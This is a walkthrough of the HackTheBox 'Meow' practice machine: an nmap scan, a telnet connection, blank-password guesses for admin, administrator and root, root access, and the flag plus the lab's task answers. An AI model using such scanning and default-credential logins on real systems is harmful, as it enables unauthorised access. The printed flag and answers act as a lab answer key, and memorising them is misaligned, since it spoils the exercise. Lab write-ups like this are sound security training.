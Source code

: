 ```yaml
---
title: HackTheBox Meow Writeup
authors: Samarth
date: 2023-09-10 14:00:00 +0530
categories: [HackTheBox , Starting Point - Tier 0]
tags: [Linux, Telnet, Weak Credentials, Misconfiguration, Reconnaissance]
math: true
mermaid: true
---
```


![Meow-HTB](/assets/images/starting-point/Meow-HTB/banner.png)

## TL;DR

This writeup is based on the [__Meow__](https://app.hackthebox.com/starting-point){:target="_blank"} machine, which is an easy-rated Linux box on Hack the Box. I began by scanning the target and found an open `Telnet port (23)`. After enumerating the service, I attempted logging in with common usernames and blank passwords. While `admin` and `administrator` failed, I successfully accessed the system using the `root` account with no password. With root access, I retrieved the flag and completed the challenge.


## Scanning Network

I began by performing an Nmap scan, which revealed open ports 23 , corresponding to telnet. Here are the results from Nmap scan:

```bash
nmap -sC -sV -A -T4 -Pn -oN scan/normal.scan 10.129.223.201
Nmap scan report for 10.129.223.201
Host is up (0.22s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

`Telnet` is a network protocol that enables remote communication with devices using a text-based interface over TCP, typically on port `23`. It allows users to access and manage systems but transmits data in plaintext, making it insecure. Due to its lack of encryption, Telnet has largely been replaced by SSH for secure remote access. However, it is still useful for testing network services, checking open ports, and interacting with protocols like HTTP and SMTP.

While doing some Google searches on this protocol, I found out that it is an old service used for the remote management of other hosts on the network.  

Since the target is running this service, it can receive Telnet connection requests from other hosts on the network.  

Connection requests through Telnet are configured with a combination of a username and password for increased security.

```bash
telnet 10.129.223.201 23
Trying 10.129.223.201...
Connected to 10.129.223.201.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

I have to find some credentials to continue the work since I don't have any other ports on the target.

Sometimes due to configuration issue, some important accounts can be left without a passwords. We can brute force some typical important account such as `admin`, `administrator`,`root` with blank password.

```bash
telnet 10.129.223.201 23
Trying 10.129.223.201...
Connected to 10.129.223.201.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: admin
Password: 

Login incorrect
Meow login: administrator
Password: 

Login incorrect
```

## Exploitation

The first two try were unlucky. Let's try `root` account for login.

```bash
 telnet 10.129.223.201 23
Trying 10.129.223.201...
Connected to 10.129.223.201.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 15 Feb 2025 04:29:29 AM UTC

  System load:           0.22
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             134
  Users logged in:       0
  IPv4 address for eth0: 10.129.223.201
  IPv6 address for eth0: dead:beef::250:56ff:fe94:e0f1

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Feb 15 04:16:18 UTC 2025 on pts/0
root@Meow:~# 
```

I have successfully logged in as `root` user in target machine. So, let's read the flag now.

```bash
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# exit
```

## Tasks

### What does the acronym VM stand for?

```plaintext
Virtual Machine
```
### What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

```plaintext
terminal
```

### What service do we use to form our VPN connection into HTB labs?

```plaintext
openvpn
```

### What tool do we use to test our connection to the target with an ICMP echo request?

```plaintext
ping
```

### What is the name of the most common tool for finding open ports on a target?

```plaintext
nmap
```

### What service do we identify on port 23/tcp during our scans?

```plaintext
telnet
```

### What username is able to log into the target over telnet with a blank password?

```plaintext
root
```

### Submit root flag

```plaintext
b40abdfe23665f766f9c61ecba8a4c19
```

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.